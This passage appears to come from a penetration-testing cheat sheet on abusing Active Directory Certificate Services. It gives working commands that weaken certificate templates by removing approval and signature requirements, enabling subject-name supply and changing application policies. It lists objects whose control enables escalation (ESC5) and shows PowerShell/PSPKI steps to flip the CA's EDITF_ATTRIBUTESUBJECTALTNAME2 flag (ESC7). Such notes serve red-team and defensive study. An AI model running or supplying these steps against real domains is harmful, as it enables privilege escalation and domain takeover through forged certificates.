 * Precise modification
```bash
# Query a certificate template (all attributes)
python3 modifyCertTemplate.py -template templateName contoso.local/user:pass

# Query the raw values of all template attributes
python3 modifyCertTemplate.py -template templateName -raw contoso.local/user:pass

# Query the ACL for a certificate template
python3 modifyCertTemplate.py -template templateName -get-acl contoso.local/user:pass


# Disabling Manager Approval Requirement
python3 modifyCertTemplate.py -template templateName -value 2 -property mspki-enrollment-flag contoso.local/user:pass 

# Disabling Authorized Signature Requirement
python3 modifyCertTemplate.py -template templateName -value 0 -property mspki-ra-signature contoso.local/user:pass 

# Enabling SAN Specification
python3 modifyCertTemplate.py -template templateName -add enrollee_supplies_subject -property msPKI-Certificate-Name-Flag contoso.local/user:pass 

# Editting Certificate Application Policy Extension
python3 modifyCertTemplate.py -template templateName -value "'1.3.6.1.5.5.7.3.2', '1.3.6.1.5.2.3.4'" -property mspki-certificate-application-policy contoso.local/user:pass 
```

#### Sufficient rights against several objects - ESC5

* CA server’s AD computer object (i.e., compromise through RBCD)
* The CA server’s RPC/DCOM server
* Any descendant AD object or container in the container `CN=Public Key Services,CN=Services,CN=Configuration,DC=<COMPANY>,DC=<COM>` (e.g., the Certificate Templates container, Certification Authorities container, the NTAuthCertificates object, the Enrollment Services container, etc.)

#### Sufficient rights against the CA - ESC7

* [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse#vulnerable-ca-aces-esc7](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse#vulnerable-ca-aces-esc7)

##### Windows

* _If an attacker gains control over a principal that has the **ManageCA** right over the CA, he can remotely flip the `EDITF_ATTRIBUTESUBJECTALTNAME2` bit to allow SAN specification in any template_

```powershell
# If RSAT is not present on the machine
DISM.exe /Online /Get-Capabilities
DISM.exe /Online /add-capability /CapabilityName:Rsat.CertificateServices.Tools~~~~0.0.1.0

# Install PSPKI
Install-Module -Name PSPKI
Import-Module PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA.contoso.local | Get-CertificationAuthorityAcl | select -ExpandProperty access

$configReader = New-Object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerD "CA.contoso.com"
$configReader.SetRootNode($true)
$configReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
$configReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")

# Check after setting the flag (EDITF_ATTRIBUTESUBJECTALTNAME2 should appear in the output)
```